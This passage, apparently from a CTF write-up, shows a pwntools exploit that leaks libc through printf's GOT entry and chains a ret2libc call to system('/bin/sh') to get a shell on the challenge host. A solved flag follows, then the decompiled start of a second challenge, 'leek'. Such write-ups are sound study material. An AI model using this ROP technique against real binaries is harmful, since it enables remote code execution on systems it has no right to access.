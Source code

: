 ```python:exploit.py
    else:
        r = remote("challs.actf.co", 31302)

    return r


def main():
    r = conn()

    offset = 72
    pop_rdi = p64(0x00000000004012b3)
    ret = p64(0x000000000040101a)

    payload = b'a'*offset + pop_rdi + \
        p64(exe.got.printf) + p64(exe.sym.puts) + p64(exe.sym.main)
    r.sendlineafter(b': ', payload)

    leak = u64(r.recvline().strip().ljust(8, b'\x00'))

    libc.address = leak - libc.sym.printf
    print(hex(libc.address))

    payload = b'a'*offset + ret + pop_rdi + \
        p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system)
    r.sendlineafter(b': ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

🏁 _actf{b4by's_f1rst_pwn!_3857ffd6bfdf775e}_{: .spoiler}

## leek

> _nc challs.actf.co xxxxx_<br>
> _Attachments: leek, Dockerfile_

Again, we analyze the binary file with Ghidra.

```c:source
void main(void)
{
  __gid_t __rgid;
  int iVar1;
  time_t seed;
  char *my_input;
  char *random_bytes;
  long in_FS_OFFSET;
  int i;
  int j;
  char second_input [40];
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  seed = time((time_t *)0x0);
  srand((uint)seed);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("I dare you to leek my secret.");
```